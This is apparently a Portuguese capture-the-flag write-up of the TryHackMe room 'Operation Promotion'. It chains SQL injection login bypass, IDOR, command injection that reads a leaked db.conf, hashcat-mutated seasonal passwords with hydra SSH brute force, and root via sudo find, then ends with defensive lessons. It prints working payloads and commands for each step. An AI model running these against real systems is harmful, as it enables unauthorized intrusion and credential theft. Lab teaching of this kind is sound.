


> Writeup da room **Operation Promotion** (TryHackMe): bypass de login por **SQLi**, **IDOR** na busca
> de usuários, **command injection** num health-check, um `db.conf` vazado, senha sazonal mutada com
> regra do `hashcat` + `hydra` no SSH e escalada a root por `sudo find`. As flags aparecem
> **redigidas** (`REDACTED`). _[Read in English](/posts/thm-operation-promotion-en/)._

O enredo da room é um teste de promoção: você está subindo na **Hadron Security** e recebe um
engajamento solo contra a **RecruitCorp**, uma firma de recrutamento com um portal público. "Comprometa
o host, pegue as flags, prove que merece o cargo de Pentester." A ironia é que a empresa que vive de
avaliar candidatos não consegue avaliar as próprias credenciais — e é exatamente por elas que a casa cai.

A cadeia inteira, em uma frase: enumerar o portal → furar o `/admin` com um **SQLi** de bypass →
passear pelos registros de usuário por **IDOR** → achar um health-check que executa **comando no shell**
→ ler o `db.conf` que vazou do controle de versão → pegar a dica sazonal da própria home, **mutar a
senha com uma regra do `hashcat`** e **brute-forçar o SSH** com `hydra` → virar `jford` → `sudo -l`
mostra `find` como root → **GTFOBins** e fim de jogo.

## Recon: um portal, um SMB mudo e um /admin no robots.txt

Scan rápido com [rustscan](https://github.com/RustScan/RustScan) empurrando o nmap por trás:

```console
$ rustscan -b 500 -a promotion.thm --top -- -sC -sV -Pn
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-title: RecruitCorp - Careers Portal
| http-robots.txt: 1 disallowed entry
|_/admin/
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
```

Quatro portas. SSH na 22, um Apache na 80 servindo o **RecruitCorp – Careers Portal**, e Samba nas
139/445. Dois presentes já no scan: o `robots.txt` entrega um `/admin/` "proibido", e o Samba convida a
uma espiada. Começo pelo SMB, que dá em nada — vale registrar o beco:

```console
$ nxc smb promotion.thm -u guest -p '' --shares
SMB  promotion.thm  445  recruitcorp  [*] Unix - Samba (name:recruitcorp) (domain:recruitcorp) (signing:False) (Null Auth:True)
SMB  promotion.thm  445  recruitcorp  [+] recruitcorp\guest:
SMB  promotion.thm  445  recruitcorp  [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

O guest entra com _null auth_, mas listar shares dá `STATUS_ACCESS_DENIED`. Fim da linha por ali. A
home do portal é institucional — e, sem querer, generosa:


Repare no card **"Spring 2026 Hiring Drive"**. Guarde essa estação do ano — ela vai virar senha mais
pra frente. O caminho que interessa é o que o `robots.txt` pediu para ninguém olhar: `/admin/`.

## SQLi: o login que abre com a query fechada

O `/admin/` é um "Sign in — Internal admin portal. Authorised personnel only." Login de app com banco
local quase sempre é uma query montada na mão, então o primeiro teste é um **bypass de autenticação**
por SQLi. O payload clássico de aspas:

```text
username: admin' or '1'='2
password: admin
```



A lógica: a query é algo como `… WHERE username='<u>' AND password='<p>'`. Injetando o usuário, ela vira
`WHERE username='admin' or '1'='2' AND password='admin'`. Pela precedência, o `AND` amarra primeiro,
então sobra `username='admin' OR (…)` — e `username='admin'` já é verdadeiro. A sintaxe fica **fechada**,
sem comentário pendurado, e o login casa com a primeira linha. `302` direto pro `/admin/dashboard.php`:



Dentro, dois brinquedos: um **User Lookup** por ID e — escondido mais fundo — um health-check de
manutenção.

## IDOR: a busca de usuários enumera a folha inteira

O User Lookup aceita um ID e devolve o registro. Nenhum controle de acesso por registro: trocar o `id`
na URL (`/admin/users/lookup.php?id=1`, `?id=2`, …) percorre a tabela toda. Um **IDOR** de manual. Do
`id=1` ao `id=7` sai a folha de pagamento:

```text
id=1  admin     admin      Primary admin account.
id=2  mvasquez  recruiter  Owns the EMEA pipeline.
id=3  tparker   recruiter  Owns the AMER pipeline.
id=4  lhayes    analyst    Reporting only.
id=5  kchen     recruiter  Out on leave.
id=6  rdavis    analyst    Reporting only.
id=7  sysmaint  system     Service account for /admin/sysmaint-checks/ping.php. Do not disable.
```

O `id=7` é o que importa — ele aponta o caminho da próxima etapa:


Uma conta de serviço, `sysmaint`, dedicada a `/admin/sysmaint-checks/ping.php`. O painel acabou de me
dar o endereço do endpoint que roda ping — e todo campo de ping é suspeito.

## Command injection: o health-check fala direto com o shell

O `ping.php` recebe um host no parâmetro `host` e dá um ping. Um ping montado com `shell=True` praticamente
implora por **injeção de comando**: basta encadear com `;`. O endpoint devolve `text/plain`, então a
saída do comando vem crua na página:

```text
GET /admin/sysmaint-checks/ping.php?host=127.0.0.1;id;cat ../../config/db.conf
```


```console
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.025 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# RecruitCorp application database config
# Pulled out of source control - DO NOT COMMIT.
db_host=localhost
db_name=recruitcorp
db_user=jford
db_pass_hash=$2b$10$QzkXmGndA2cQLozO3xAN6eWKrl6ZXyzhYTJNF67exOmTmN5oVSEfq
db_engine=sqlite3
```

RCE como `www-data`. Um `ls -la /var/www/html` mostra um diretório `config/`, e dentro dele o prêmio:
o **`db.conf`**, com o comentário mais honesto da internet — _"Pulled out of source control - DO NOT
COMMIT."_ Ele entrega o usuário `jford` e o hash bcrypt da senha do banco.

## Cracking + hydra: a senha da estação, mutada e pulverizada

O `db_pass_hash` é um **bcrypt** (`$2b$10$…`). Dá pra jogar `hashcat -m 3200` com a `rockyou` e esperar
— bcrypt é propositalmente lento, custa caro. Mas a room já sussurrou a resposta: a home anunciava um
**"Spring 2026 Hiring Drive"**. Senha corporativa com cara de estação do ano é padrão clássico, então em
vez de quebrar o hash eu parto da base `spring2026` e gero variações com uma regra do `hashcat`:

```console
$ echo 'spring2026' > base.txt
$ wget https://raw.githubusercontent.com/hashcat/hashcat/refs/heads/master/rules/dive.rule
$ hashcat --stdout base.txt -r dive.rule > wordlist.txt
$ wc -l wordlist.txt
98670 wordlist.txt
```

A `dive.rule` explode a palavra-base em ~99 mil mutações (capitalização, sufixos, _leet_, inversões…).
Com a lista na mão, `hydra` contra o SSH mirando o `jford`:

```console
$ hydra -l jford -P wordlist.txt promotion.thm ssh
[22][ssh] host: promotion.thm   login: jford   password: spring2026!
1 of 1 target successfully completed, 1 valid password found
```

`jford : spring2026!`. A mutação vencedora foi só um `!` no fim — e, de quebra, é exatamente o que o
bcrypt do `db.conf` guardava: a senha do banco **reutilizada** como senha de sistema. O pecado de sempre.

## User: SSH como jford

A credencial entra numa boa pelo SSH:

```console
$ ssh jford@promotion.thm
jford@recruitcorp:~$ id
uid=1001(jford) gid=1001(jford) groups=1001(jford)
jford@recruitcorp:~$ cat user.txt
THM{REDACTED  ·  user}
```

Primeira flag no bolso.

## Root: sudo find é um /bin/sh com crachá de root

O primeiro reflexo pós-shell é `sudo -l`:

```console
jford@recruitcorp:~$ sudo -l
User jford may run the following commands on recruitcorp:
    (root) NOPASSWD: /usr/bin/find
```

`find` como root, sem senha. O [GTFOBins](https://gtfobins.github.io/gtfobins/find/) tem a receita
pronta: o `-exec` do `find` roda qualquer comando, e se o `find` roda como root, o `/bin/sh` também:

```console
jford@recruitcorp:~$ sudo /usr/bin/find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag.txt
THM{REDACTED  ·  root}
```

Root. Máquina inteira — promoção aprovada.

## O que fica

Operation Promotion não tem truque exótico: tem uma **sequência limpa de erros básicos**, cada um
abrindo a porta do próximo. É um ótimo mapa de "higiene que ninguém faz":

- **Segredo no `robots.txt`.** O `/admin/` "proibido" é o primeiro lugar que todo mundo olha. Esconder
  caminho em `robots.txt` é publicá-lo com destaque.
- **SQLi de bypass de login.** Query montada por concatenação, sem _prepared statement_. `admin' or
'1'='2` fecha a sintaxe e passa. Parametrize as consultas — é 2026.
- **IDOR na busca.** Autenticou não é autorizou. O `lookup.php?id=` devolvia qualquer registro sem
  checar escopo; dá pra enumerar a folha inteira trocando um número.
- **Command injection no health-check.** `ping` com `shell=True` e `;` no parâmetro. Nunca passe input
  pro shell; se precisar pingar, use a API de rede, não um `system()`.
- **Segredo que vazou do versionamento.** `db.conf` dentro do webroot, legível pela aplicação, com um
  comentário "DO NOT COMMIT" que só confirma que foi commitado. Segredo fora do código, e fora do
  webroot.
- **Senha sazonal + reúso.** `spring2026!` nasceu de um padrão previsível (a estação estampada na
  própria home) e ainda foi reutilizada entre banco e SSH. Uma regra do `hashcat` transforma a dica em
  99 mil tentativas; o `hydra` faz o resto.
- **`sudo` largo demais.** `find` com `NOPASSWD` é root disfarçado — o `-exec` é um shell. Regra de
  `sudo` tem que ser do tamanho exato da tarefa, e binários com `-exec`/`-e`/escape de shell nunca
  deveriam entrar nela.

A moral combina com o tema: uma firma que recruta talentos não checou as próprias credenciais, e cada
atalho de pressa — o segredo no repo, a senha da estação, o `sudo` folgado — virou um degrau. A casa não
foi derrubada por um 0day; foi aberta pelas chaves que deixaram debaixo do tapete.
